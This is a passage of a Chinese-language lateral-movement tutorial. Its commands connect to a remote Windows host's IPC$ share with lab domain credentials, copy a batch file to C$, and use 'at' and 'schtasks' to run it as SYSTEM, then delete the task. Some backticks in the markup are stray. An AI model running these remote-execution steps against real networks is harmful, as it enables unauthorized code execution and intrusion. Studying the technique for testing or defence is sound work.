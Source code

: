 ```yaml
---
title: "4.2.1.2 建立 IPC 连接、copy 文件、创建计划任务"
id: zhfly3420
---
```


#### 4.2.1.2 建立 IPC 连接、copy 文件、创建计划任务

```
net use \\192.168.19.169\c$ test@123 /user:adtest\jeff1 
copy 1.bat \\192.168.19.169\c$ `net time \192.168.19.169

at \192.168.19.169 1:03 c:\1.bat` 
```

![image](../img/632ce21e5a6e8f10daa2e58318a68a53.png)

#### schtasks

由于 at 在新版本的系统中已被弃用，我们需要用 schtasks 替代

![image](../img/b8dbff03c0c60310990c12fc02053157.png)

```
schtasks /create /s 192.168.19.177 /u adtest\jeff1 /p test@123 /ru "SYSTEM" /tn test /sc DAILY /tr c:\1.bat /F 
```

创建计划任务，/s 指定远程机器名或 ip 地址，/ru 指定运行任务的用户权限，这里指定 为最高的 SYSTEM，/tn 是任务名称，/sc 是任务运行频率，这里指定为每天运行，并没什么 实际意义，/tr 指定运行的文件，/F 表示如果指定的任务已经存在，则强制创建任务并抑制警告

![image](../img/14fcdf7b0ac9a29926cec49e742575ff.png)

运行任务，其中/i 表示立即运行

```
schtasks /run /s 192.168.19.177 /u adtest\jeff1 /p test@123 /tn test /i 
```

![image](../img/d9f825d3ad26244d394ddc9fbfa1d993.png)

![image](../img/ab71daab81b108fe983b694d598f6dc9.png)

删除计划任务

```
schtasks /delete /s 192.168.19.177 /u adtest\jeff1 /p test@123 /tn test /f 
```

![image](../img/328ce8b2be67f64fa1c07ce98b94d412.png)

![image](../img/80ee48f32e0567837152116661e1e521.png)